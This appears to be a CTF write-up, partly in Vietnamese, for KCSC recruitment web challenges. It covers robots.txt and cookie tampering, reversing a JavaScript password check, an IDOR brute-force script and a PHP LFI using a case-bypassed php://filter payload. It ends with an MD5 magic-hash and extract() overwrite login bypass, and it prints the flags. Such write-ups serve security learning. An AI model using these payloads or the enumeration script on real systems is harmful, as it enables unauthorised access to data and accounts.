

## KCSC Recruit Members 

## Robot

Challenge lụm flag

**Part 1**: `KCSC{C0r0n4_` --> source-code

**Part 2**: `v1ru22_1s_` --> robots.txt 

**Part 3** : `g0n3_n0w!!}` --> disallowed: /vaccine.php --> /vaccine -> cookies:vaccine=0 --> vaccine=1 

**Flag**: `KCSC{C0r0n4_v1ru22_1s_g0n3_n0w!!}`

## 2. Warm Up

```javascript
    const checkPassword = () => {
      const v = document.getElementById("password").value;
      const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));
      if(p[0] === 52043 &&
         p[6] === 52063 &&
         p[5] === 52075 &&
         p[16] === 52076 &&
         p[9] === 52067 &&
         p[10] === 52063 &&
         p[4] === 52041 &&
         p[3] === 52067 &&
         p[8] === 52080 &&
         p[7] === 52037 &&
         p[2] === 52073 &&
         p[11] === 52082 &&
         p[12] === 52031&&
         p[13] === 52069 && 
         p[14] == 52063 && 
         p[15] == 52071 && 
         p[1] == 52063) {
        window.location.replace(v + ".html");
      } else {
        alert("Wrong password!");
      }
    }
```

`const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));` : Lấy từng số trong string ra dưới dạng ascii code rồi cộng cho `0xcafe`. 0xcafe `hex2decimal` được `51966`. Sắp xếp lại possition rồi lấy `51966` trừ cho vế so sánh --> charcode --> password: `MakeKmaGreatAgain`

**flag**: `KCSC{j4v-a-SRript-i555-FUn}`

## DIOR

Viết láy của `IDOR - Insecure direct object references`: arises when an application `uses user-supplied input` to access objects `directly`.



`Brute-force` flag thôi:
```python
import requests

url = 'http://45.77.39.59/?number='

for i in range(2000):
  r = requests.get(url + f'{i}')
  if 'KCSC{' in r.text:
    print(r.text)
    break
```

**flag**: `KCSC{Gud_luckkkkk__brooo}`

## Magic PHP

Web app: 1 page login -> only admin see flag, another look like vulnerable to LFI.

http://45.77.39.59/?page=secret

```
Warning: include(/etc/passwd.php): Failed to open stream: No such file or directory in /var/www/html/index.php on line 14

Warning: include(): Failed opening '/etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 14
```
Add extension --> `null byte` --> *yes!!*

**payload read index.php file**: `pHp://filter/convert.base64-encode/resource=index`

*case-sensitive for bypass!!*
`index.php`
```php
<?php
    if (isset($_GET['page']) && !empty($_GET['page'])){
        $page = $_GET['page'];
        if(strpos($page, 'php') !== false){
          die("<center>Don' hack me ! Stop !!!</center>");
      }
      elseif (strpos(strtolower($page), 'flag')  ) {
        die("<center>Don' hack me ! Stop !!!</center>");
      }
    }
    else{
        $page = "login";
    }
    include ($page.".php");
?>
```

Đoạn này chẳng có gì nhiều, ngồi đục include to RCE thì là hỏng, chú ý khi không set `page` paramteter thì login sẽ redirect to `login.php`(đọc cho kĩ source-code jump!!).

`pHp://filter/convert.base64-encode/resource=login`

```php
<?php 
    
    include ("flag.php"); //real flag in $flag

  if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if(!empty($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
      $password = random_int(10000000, 99999999);
      extract($_POST);
      $user_hash ='0e902564435691274142490923013038' ;
  
      if (md5($user) == $user_hash && $password === $pass){
        echo $flag;
        die();
      }else{
        die("Only admin have flag !!");
      }
    }
  }
?>
```
Trông dễ ăn đó, với user_hash thì encrypt interger to 0e(0 mũ = 0) là bypass được --> `0e1137126905:0e291659922323405260514745084877`

Hàm extract() extract any variable in POST array. Và nó được gọi sau `$password` variable tức mình có thể ghi đè!!

full payload(POST): `user=0e1137126905&password=123&pass=123`

**flag**: `KCSC{LFI_to_loose_comparison@@}`
